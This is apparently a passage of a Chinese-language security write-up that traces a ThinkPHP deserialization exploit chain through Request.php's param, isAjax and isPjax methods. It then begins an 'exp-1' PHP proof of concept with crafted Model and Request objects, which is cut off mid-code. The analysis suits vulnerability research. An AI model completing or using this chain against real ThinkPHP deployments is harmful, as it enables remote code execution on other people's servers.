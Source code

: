 ```php

            return $this->input($data, '', $default, $filter);
        }

        return $this->input($this->param, $name, $default, $filter);
    }
```
- 继续向上查找使用了 `param` 的方法，跟进 `thinkphp/library/think/Request.php` 中的 `isAjax` 或者 方法，发现 `isAjax/isPjax` 方法可以满足 `param` 的第一个参数为字符串，因为 `$this->config` 也是可控的

```php
public function isAjax($ajax = false)
    {
        $value  = $this->server('HTTP_X_REQUESTED_WITH');
        $result = 'xmlhttprequest' == strtolower($value) ? true : false;

        if (true === $ajax) {
            return $result;
        }

        $result           = $this->param($this->config['var_ajax']) ? true : $result;
        $this->mergeParam = false;
        return $result;
    }
```
```php
public function isPjax($pjax = false)
    {
        $result = !is_null($this->server('HTTP_X_PJAX')) ? true : false;

        if (true === $pjax) {
            return $result;
        }

        $result           = $this->param($this->config['var_pjax']) ? true : $result;
        $this->mergeParam = false;
        return $result;
    }
```
## 构造反序列化利用链
- 参考 Mochazz 师傅的示意图

<img src="https://pic.imgdb.cn/item/61227a3a44eaada739f759c1.png" alt="">

- exp-1

```php
<?php
namespace think;
abstract class Model{
    protected $append = [];
    private $data = [];
    function __construct(){
        $this->data = ['H3rmesk1t' =new Request()];
        $this->append = ['H3rmesk1t' =[]];
    }
}
class Request{
    protected $filter;
    protected $hook = [];
    protected $config = [
        // 表单请求类型伪装变量
        'var_method'       ='_method',
        // 表单ajax伪装变量
```